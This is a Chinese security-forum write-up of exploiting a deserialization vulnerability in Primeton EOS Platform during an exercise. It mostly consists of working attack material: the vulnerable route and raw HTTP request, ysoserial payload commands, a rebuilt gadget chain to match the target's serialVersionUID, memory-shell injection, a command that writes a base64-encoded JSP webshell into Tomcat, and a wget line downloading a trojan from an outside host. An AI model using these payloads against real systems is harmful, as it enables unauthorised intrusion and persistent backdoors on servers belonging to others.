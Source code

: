 

# 奇安信攻防社区 - 记一次普元 Primeton EOS Platform 反序列化漏洞的利用链报错问题调整

### 记一次普元 Primeton EOS Platform 反序列化漏洞的利用链报错问题调整

在某演练中，普元 Primeton EOS Platform 反序列化漏洞反序列化返回 serialVersionUID 对应不上的问题的一次调整，详细操作如下，为师傅们避坑

# 普元 Primeton EOS Platform 反序列化漏洞

## 一、漏洞复现探测

漏洞路由/.remote

```php
10.95.209.59:8080/default/.remote
```

![](assets/1706770101-6039a029f4f310a686e46102e1a6adbd.png)

1su18-探测反序列化利用链--选择使用全部类探测

[https://github.com/su18/ysoserial/](https://github.com/su18/ysoserial/)

![](assets/1706770101-91f624dc7b0c3b1d82c0c958dc0d3684.png)

坑点注意--单引号生成的大小再 windows 里会小了 3kb 导致失败

```php
正确的双引号
java -jar ysuserial-0.9-su18-all.jar -g URLDNS -p "all:gbs.dnslog.pw" >dnslog2223.ser
失败的单引号
java -jar ysuserial-0.9-su18-all.jar -g URLDNS -p 'all:gbs.dnslog.pw' >dnslog2223.ser
```

![](assets/1706770101-47cb4c9bfa3cce1c3453104c45d8f03f.png)

```php
POST /default/.remote HTTP/1.1
Host: 10.95.209.59:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

![](assets/1706770101-11e69223e786e9c26b3cd42b7ece04fb.png)

成功 dnslog

![](assets/1706770101-a6d856b7418897c762001cb55573b747.png)

## 二、遇到的问题--serialVersionUID 对应不上的问题

没有延时并返回 serialVersionUID 对应不上的问题

serialVersionUID = 2573799559215537819

```php
java -jar ysoserial-for-woodpecker-0.5.2-all.jar -g CommonsBeanutils1 -a "sleep:10" >CommonsBeanutils1.ser
```

![](assets/1706770101-9b979558c1fb04fda8d33ebe3bd19db4.png)

使用延时探测是否存在--可以看到报错

![](assets/1706770101-1a6c2616252094a54cf43975725add54.png)

## 三、解决问题--魔改 yso

gv7 探测利用链--类的列表的两篇文章

[https://gv7.me/articles/2021/construct-java-detection-class-deserialization-gadget/#6-3-CommonsBeanutils](https://gv7.me/articles/2021/construct-java-detection-class-deserialization-gadget/#6-3-CommonsBeanutils)

[https://github.com/su18/ysoserial/](https://github.com/su18/ysoserial/)

![](assets/1706770101-74ca629fad037135dc078b7755677c96.png)

原来的`ysoserial-for-woodpecker-0.5.2-all.jar`是 cb1.9.2 的

![](assets/1706770101-e79b9e8f1a2118c849b65f9518dcfd09.png)

查阅网上资料

[https://gv7.me/articles/2021/construct-java-detection-class-deserialization-gadget/#6-3-CommonsBeanutils](https://gv7.me/articles/2021/construct-java-detection-class-deserialization-gadget/#6-3-CommonsBeanutils)

发现当 CommonsBeanutils 版本 1.7.0 <= <= 1.8.3 的时候 suid 为 2573799559215537819 正好与目标环境对得上

![](assets/1706770101-5b1d115f22d46a067022213dc85f3411.png)

并通过延时探测 org.apache.commons.beanutils.ConstructorUtils 类是否存在

```php
java -jar ysoserial-for-woodpecker-0.5.2-all.jar -g FindClassByBomb -a "org.apache.commons.beanutils.ConstructorUtils|28" >suid.ser
```

成功延时

![](assets/1706770101-db014d722570a1ede77292671dc5b7a0.png)

![](assets/1706770101-86335d10ae89f5976008b7d996efc4ef.png)

打包时报错

[https://class.imooc.com/course/qadetail/264587](https://class.imooc.com/course/qadetail/264587)

于是重新打包 ysoserial，把依赖包 commons-beanutils 修改为 1.6 版本对应到目标环境

![](assets/1706770101-1875c9fec9b832623ac4f6ec76188ff8.png)

[https://www.runoob.com/maven/maven-setup.html](https://www.runoob.com/maven/maven-setup.html)

随便下个 zip 去解压填进 path 就可以了

**配好 maven 环境**就去根目录重新执行下面命令

```php
MAVEN_HOME  
D:\apache-maven-3.6.1

path
%MAVEN_HOME%\bin
```

```php
mvn clean package -DskipTests
```

![](assets/1706770101-87b9712515fcea87865d5e55cab5697d.png)

重新使用 cb1.6 打包的 yso 延时探测

```php
java -jar ysoserial-for-woodpecker-0.5.3-all.jar -g CommonsBeanutils1 -a "sleep:10" >CommonsBeanutils1.ser
```

![](assets/1706770101-69cb6b83c40b1ff72006ac747bb0778d.png)

## 四、漏洞利用 - 注入内存马和命令执行无回显写 shell

注入内存马

成功

```php
java -jar ysoserial-for-woodpecker-0.5.3-all.jar -g CommonsBeanutils1 -a "class_file:gslFilterMemshellLoader.class" >gsl.ser
```

![](assets/1706770101-a2dd7c77f1b0a9f240a17b6267411c7e.png)

![](assets/1706770101-15ccb7208acc7568c61b81f3f8b0688c.png)

命令执行不出网写 shell-如果不会打内存马或者打不成功，那最淳朴的方法就是命令执行--linux 找 web 路径 - 命令执行 echo 写入 webshell

```php
1 || for i in `find / -type d -name WEB-INF| xargs -I {} echo {}.txt`;do echo $i >$i;done
```

`linux_cmd`

```php
java -jar ysoserial-for-woodpecker-0.5.3-all.jar -g CommonsBeanutils1 -a "linux_cmd:1 || for i in `find / -type d -name WEB-INF| xargs -I {} echo {}.txt`;do echo $i >$i;done" >cmd.ser
```

[http://10.95.209.59:8080/examples/WEB-INF.txt](http://10.95.209.59:8080/examples/WEB-INF.txt)

/usr/local/apache-tomcat-8.5.83/webapps/examples/WEB-INF.txt

![](assets/1706770101-7b55f793059fbfb012dac99830e5e811.png)

写 shell

```php
java -jar ysoserial-for-woodpecker-0.5.3-all.jar -g CommonsBeanutils1 -a "linux_cmd:echo base64马子 | base64 -d >/usr/local/apache-tomcat-8.5.83/webapps/examples/gsl33.jsp" >cmd.ser
```

![](assets/1706770101-c8d1f70e4f1e06f0fc4116f73e79a3be.png)

以上都是不出网的打法，当然也可以写 cron 计划任务不过执行两次命令就没必要了，出网的当然可以下马子直接上线就好--这里就不写了和以上的 linux\_cmd 方法一样

```php
wget http://ip/马子 -O /tmp/马子
```
